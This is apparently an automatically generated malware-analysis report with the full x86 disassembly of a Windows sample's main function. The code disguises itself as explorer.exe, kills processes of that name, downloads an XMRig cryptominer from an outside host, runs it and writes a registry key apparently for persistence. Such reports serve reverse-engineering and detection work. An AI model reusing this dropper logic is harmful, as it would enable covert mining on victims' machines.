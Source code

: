 ```yaml
---
layout: post
title:  "main @ fca52b995e756cff97168f6fef94b37d"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** fca52b995e756cff97168f6fef94b37d
- **VirusTotal:** [virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d][virustotal_ref]

# Code Tags
<span class="tag" id="HTTP">HTTP</span>
<span class="tag" id="PROCESS">PROCESS</span>


# Similar Functions

1. [fcn.00438d70][similar_1_ref] (sim.: 0.9265545394816559)
2. [fcn.00429b10][similar_2_ref] (sim.: 0.9225819923670773)
3. [fcn.00453842][similar_3_ref] (sim.: 0.9220338364838753)
4. [fcn.004034a9][similar_4_ref] (sim.: 0.9173719003522569)
5. [fcn.004034a9][similar_5_ref] (sim.: 0.9173719003522569)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
and esp,0xfffffff0
sub esp,0x908
mov eax,dword[0x41b010]
xor eax,esp
mov dword[esp+0x904],eax
push esi
push edi
xor eax,eax
mov dword[esp+0x10],0
push 0x800
push eax
mov word[esp+0x30],ax
lea eax,[esp+0x110]
push eax
mov dword[esp+0x44],0
mov dword[esp+0x48],7
call fcn.00406cb0
add esp,0xc
lea eax,[esp+0x108]
push eax
push 0
push 0
push 0x1a
push 0
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax,eax
jne 0x402d06
lea ecx,[esp+0x108]
lea edx,[ecx+2]
mov ax,word[ecx]
add ecx,2
test ax,ax
jne 0x402ce5
sub ecx,edx
lea eax,[esp+0x108]
sar ecx,1
push ecx
push eax
lea ecx,[esp+0x30]
call fcn.004011e0
push str.Microsoftexplorer.exe
lea ecx,[esp+0x2c]
call fcn.00401320
xor ecx,ecx
movups xmm0,xmmword[eax]
movups xmmword[esp+0x70],xmm0
movq xmm0,qword[eax+0x10]
movq qword[esp+0x80],xmm0
mov dword[eax+0x10],0
mov dword[eax+0x14],7
mov word[eax],cx
mov edx,dword[esp+0x3c]
cmp edx,8
jb 0x402d79
mov ecx,dword[esp+0x28]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x402d6f
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403401
push edx
push ecx
call fcn.00404ff5
add esp,8
lea eax,[esp+0x70]
push eax
lea ecx,[esp+0x44]
call fcn.004039b0
push 0x41ca3c
push fcn.00403d50
push 0x41ca30
call fcn.00404336
add esp,0xc
test eax,eax
je 0x403406
push 0x41ca3c
push fcn.00403d50
push 0x41ca30
call fcn.00404336
add esp,0xc
test eax,eax
je 0x40340b
cmp dword[esp+0x54],8
lea ecx,[esp+0x10]
lea eax,[esp+0x40]
cmovae eax,dword[esp+0x40]
push ecx
push eax
call fcn.004043ca
add esp,8
cmp eax,8
je 0x402e19
cmp eax,0xffffffff
je 0x402e19
lea eax,[esp+0x70]
push eax
lea ecx,[esp+0x2c]
call fcn.004039b0
lea ecx,[esp+0x28]
call fcn.004027b0
cmp eax,0x173a00
jne 0x402e0d
test edx,edx
je 0x402e20
mov byte[esp+0xf],1
mov eax,3
jmp 0x402e2a
mov eax,1
jmp 0x402e25
mov eax,3
mov byte[esp+0xf],0
test al,2
je 0x402e81
mov edx,dword[esp+0x3c]
cmp edx,8
jb 0x402e6a
mov ecx,dword[esp+0x28]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x402e60
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp,8
xor eax,eax
mov dword[esp+0x38],0
mov dword[esp+0x3c],7
mov word[esp+0x28],ax
mov edx,dword[esp+0x54]
cmp edx,8
jb 0x402ebd
mov ecx,dword[esp+0x40]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x402eb3
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403410
push edx
push ecx
call fcn.00404ff5
add esp,8
cmp byte[esp+0xf],0
mov edi,dword[sym.imp.KERNEL32.dll_CloseHandle]
je 0x403119
lea eax,[esp+0x70]
push eax
lea ecx,[esp+0x5c]
call fcn.004039b0
lea ecx,[esp+0x58]
call fcn.00402730
mov edx,dword[esp+0x6c]
mov byte[esp+0xf],al
cmp edx,8
jb 0x402f29
mov ecx,dword[esp+0x58]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x402f1b
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403415
push edx
push ecx
call fcn.00404ff5
mov al,byte[esp+0x17]
add esp,8
test al,al
je 0x403056
push 0xc
xor eax,eax
mov dword[esp+0x3c],0
push str.explorer.exe
lea ecx,[esp+0x30]
mov dword[esp+0x44],7
mov word[esp+0x30],ax
call fcn.004011e0
push 0
push 0xf
call dword[sym.imp.KERNEL32.dll_CreateToolhelp32Snapshot]
lea ecx,[esp+0x108]
mov dword[esp+0x10],eax
push ecx
push eax
mov dword[esp+0x110],0x22c
call dword[sym.imp.KERNEL32.dll_Process32FirstW]
mov edi,dword[esp+0x28]
test eax,eax
je 0x40300e
nop dword[eax]
cmp dword[esp+0x3c],8
lea eax,[esp+0x28]
lea ecx,[esp+0x12c]
cmovae eax,edi
mov dx,word[ecx]
cmp dx,word[eax]
jne 0x402fc9
test dx,dx
je 0x402fc5
mov dx,word[ecx+2]
cmp dx,word[eax+2]
jne 0x402fc9
add ecx,4
add eax,4
test dx,dx
jne 0x402fa3
xor eax,eax
jmp 0x402fce
sbb eax,eax
or eax,1
test eax,eax
jne 0x402ff8
push dword[esp+0x110]
push eax
push 1
call dword[sym.imp.KERNEL32.dll_OpenProcess]
mov esi,eax
test esi,esi
je 0x402ff8
push 9
push esi
call dword[sym.imp.KERNEL32.dll_TerminateProcess]
push esi
call dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax,[esp+0x108]
push eax
push dword[esp+0x14]
call dword[sym.imp.KERNEL32.dll_Process32NextW]
test eax,eax
jne 0x402f90
push dword[esp+0x10]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
mov eax,dword[esp+0x3c]
cmp eax,8
jb 0x403050
lea ecx,[eax*2+2]
mov eax,edi
cmp ecx,0x1000
jb 0x403046
mov edi,dword[edi-4]
add ecx,0x23
sub eax,edi
add eax,0xfffffffc
cmp eax,0x1f
ja 0x40341a
push ecx
push edi
call fcn.00404ff5
add esp,8
mov edi,dword[sym.imp.KERNEL32.dll_CloseHandle]
lea eax,[esp+0x70]
push eax
lea ecx,[esp+0x5c]
call fcn.004039b0
push 0x41ca3c
push fcn.00403d50
push 0x41ca30
mov dword[esp+0x1c],0
call fcn.00404336
add esp,0xc
test eax,eax
je 0x403406
lea edx,[esp+0x10]
mov dword[esp+0x14],0x41ca3c
lea ecx,[esp+0x58]
call fcn.00402990
push 0x41ca3c
push fcn.00403d50
push 0x41ca30
call fcn.00404336
add esp,0xc
test eax,eax
je 0x403406
mov eax,dword[esp+0x14]
mov eax,dword[eax+4]
cmp eax,dword[0x41ca40]
jne 0x403429
cmp dword[esp+0x10],0
jne 0x403429
mov edx,dword[esp+0x6c]
cmp edx,8
jb 0x403119
mov ecx,dword[esp+0x58]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x40310f
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x40341f
push edx
push ecx
call fcn.00404ff5
add esp,8
cmp dword[esp+0x84],8
lea eax,[esp+0x70]
push 0
cmovae eax,dword[esp+0x74]
push 0
push eax
push str.http:__osdsoft.com_update20180524_xmrig_notls.exe
push 0
call dword[sym.imp.urlmon.dll_URLDownloadToFileW]
test eax,eax
jne 0x4033aa
call fcn.00404321
mov ecx,eax
cmp ecx,1
jbe 0x403151
dec ecx
lea esi,[esp+0x106]
nop dword[eax+eax]
mov eax,0xcccccccd
sub esi,2
mul ecx
shr edx,3
lea eax,[edx+edx*4]
add eax,eax
sub ecx,eax
add ecx,0x30
mov word[esi],cx
mov ecx,edx
test ecx,ecx
jne 0x403160
xor eax,eax
mov dword[esp+0x38],edx
mov word[esp+0x28],ax
lea eax,[esp+0x106]
mov dword[esp+0x3c],7
cmp esi,eax
je 0x4031ad
sub eax,esi
lea ecx,[esp+0x28]
sar eax,1
push eax
push esi
call fcn.004011e0
lea eax,[esp+0x28]
push eax
push ecx
lea edx,[esp+0x78]
lea ecx,[esp+0x60]
call fcn.004015a0
add esp,4
lea ecx,[esp+0x44]
mov edx,eax
call fcn.00401420
add esp,4
mov dword[esp+0x90],0x44
cmp dword[esp+0x54],8
lea ecx,[esp+0x10]
xorps xmm0,xmm0
lea eax,[esp+0x40]
cmovae eax,dword[esp+0x40]
push ecx
lea ecx,[esp+0x94]
movlpd qword[esp+0x98],xmm0
push ecx
push 0
push 0
push 0x8000000
push 1
push 0
push 0
push eax
push 0
movlpd qword[esp+0xc4],xmm0
movlpd qword[esp+0xcc],xmm0
movlpd qword[esp+0xd4],xmm0
movlpd qword[esp+0xdc],xmm0
movlpd qword[esp+0xe4],xmm0
movlpd qword[esp+0xec],xmm0
movlpd qword[esp+0xf4],xmm0
movaps xmmword[esp+0x38],xmm0
call dword[sym.imp.KERNEL32.dll_CreateProcessW]
push dword[esp+0x10]
call edi
push dword[esp+0x14]
call edi
mov edx,dword[esp+0x54]
cmp edx,8
jb 0x4032a7
mov ecx,dword[esp+0x40]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x40329d
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403424
push edx
push ecx
call fcn.00404ff5
add esp,8
mov edx,dword[esp+0x6c]
cmp edx,8
jb 0x4032e3
mov ecx,dword[esp+0x58]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x4032d9
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp,8
mov edx,dword[esp+0x3c]
xor eax,eax
mov dword[esp+0x68],0
mov dword[esp+0x6c],7
mov word[esp+0x58],ax
cmp edx,8
jb 0x403336
mov ecx,dword[esp+0x28]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x40332c
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x403468
push edx
push ecx
call fcn.00404ff5
add esp,8
sub esp,0x18
xor eax,eax
mov ecx,esp
push 1
mov dword[ecx+0x10],0
mov dword[ecx+0x14],7
push 0x4186a8
mov word[ecx],ax
call fcn.004011e0
sub esp,0x18
xor eax,eax
mov ecx,esp
push 9
mov dword[ecx+0x10],0
mov dword[ecx+0x14],7
push 0x4186ac
mov word[ecx],ax
call fcn.004011e0
sub esp,0x18
xor eax,eax
mov ecx,esp
push 0x1c
mov dword[ecx+0x10],0
mov dword[ecx+0x14],7
push str.SoftwareWindowsUpdaterxmru
mov word[ecx],ax
call fcn.004011e0
call fcn.00402b20
add esp,0x48
mov edx,dword[esp+0x84]
cmp edx,8
jb 0x4033e9
mov ecx,dword[esp+0x70]
lea edx,[edx*2+2]
mov eax,ecx
cmp edx,0x1000
jb 0x4033df
mov ecx,dword[ecx-4]
add edx,0x23
sub eax,ecx
add eax,0xfffffffc
cmp eax,0x1f
ja 0x40346d
push edx
push ecx
call fcn.00404ff5
add esp,8
mov ecx,dword[esp+0x90c]
xor eax,eax
pop edi
pop esi
xor ecx,esp
call fcn.00404d1a
mov esp,ebp
pop ebp
ret 0x10
call fcn.004088d8
call fcn.00408aaf
call fcn.00408aaf
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
call fcn.004088d8
push str.remove_p_:_invalid_argument
lea ecx,[esp+0x44]
call fcn.00403610
lea ecx,[esp+0x10]
call fcn.00401d90
lea ecx,[esp+0x90]
push dword[eax+4]
push dword[eax]
lea eax,[esp+0x48]
push eax
call fcn.004024a0
push 0x41973c
lea eax,[esp+0x94]
push eax
call fcn.00406135
call fcn.004088d8
call fcn.004088d8
int3
{% endhighlight %}


[similar_1_ref]: /report/fcn.00438d70@4fe6510221c33bf023f6abed461fc13f
[similar_2_ref]: /report/fcn.00429b10@1123b7aa5760238fe93045e585b8234c
[similar_3_ref]: /report/fcn.00453842@20a93604f17ee6f3c2aa7b1f7a497fcf
[similar_4_ref]: /report/fcn.004034a9@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_5_ref]: /report/fcn.004034a9@152885a790b99953ce23874f0947b7bd
[virustotal_ref]: https://www.virustotal.com/gui/file/fca52b995e756cff97168f6fef94b37d